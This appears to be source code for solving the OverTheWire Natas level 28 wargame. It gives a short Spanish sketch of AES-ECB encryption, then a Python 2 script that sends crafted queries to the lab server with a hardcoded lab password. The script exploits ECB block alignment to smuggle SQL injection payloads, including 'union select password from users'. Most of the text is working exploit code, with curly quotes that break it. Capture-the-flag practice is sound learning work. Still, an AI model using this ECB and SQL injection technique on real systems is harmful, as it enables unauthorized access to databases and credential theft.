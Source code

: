 Mensaje = Escape(Entrada_original)
Mensaje_a_cifrar = Prefijo[38] | Mensaje | Sufijo[30] | Relleno(PKCS#7?)
Mensaje_cifrado = AES-ECB(Mensaje_a_cifrar)
Mensaje_a_enviar = Base_64(Mensaje_cifrado)

~~~
import httplib,sys,binascii
from base64 import b64encode,b64decode
from urllib import quote,unquote

def check(query):
query=quote(query)
httpClient = None
try:
userAndPass = b64encode(b”natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF”).decode(“ascii”)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’}
httpClient = httplib.HTTPConnection(‘natas28.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?query=’+query, headers=headers)
response = httpClient.getresponse()
#responseData = response.read()
result = response.getheader(‘Location’)
return binascii.b2a_hex(b64decode(unquote(result[result.find(‘query=’)+6:])))
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

def outputhex(str):
i=0
newStr=”
for c in str:
i+=1
if i%32==0:
newStr+=c+’ ‘
else:
newStr+=c
print newStr
print “<br/>”

def xorInside(str1,str2):
first=str1.decode(‘hex’)
second=str2.decode(‘hex’)
newStr=”
for i in range(0,16):
newStr+= chr(ord(first[i])^ord(second[i]))
return binascii.b2a_hex(newStr)

def autocheck():
a=”
b=”
for i in range(1,80):
a+=’a’
b+=’b’
outputhex(check(a))
outputhex(check(b))

#sql=”aaaaaaaaa”+”‘ or 1=1 — bbbb”+”bbbbbbbbbbbbbbbb”+”bbbbbbbbbbbbbbbb”+”aa”
#sql= “aaaaaaaaa”+”‘ union select 1″+” from users — b”+”bbbbbbbbbbbbbbbb”+”aa”
sql= “aaaaaaaaa”+”‘ union select p”+”assword from use”+”rs — bbbbbbbbbb”+”aa”

print binascii.b2a_hex(sql)
outputhex(check(sql))
~~~